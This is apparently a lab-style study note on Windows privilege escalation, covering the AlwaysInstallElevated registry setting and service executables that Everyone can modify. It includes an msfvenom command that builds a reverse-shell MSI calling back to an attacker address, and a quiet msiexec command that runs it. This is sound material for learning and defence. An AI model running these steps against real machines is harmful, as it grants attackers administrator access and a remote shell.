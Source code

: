 
## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.65.211 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```


## Windows Services

### Insecure Permissions on Service Executable

```shell-session
sc qc WindowsScheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```
Important objects are:
	`BINARY_PATH_NAME`
	`SERVICE_START_NAME`

1. Query the permissions of the service executable
```shell-session
icacls C:\PROGRA~2\SYSTEM~1\WService.exe

C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
```
The Everyone group has modify permissions (M) on the service's executable

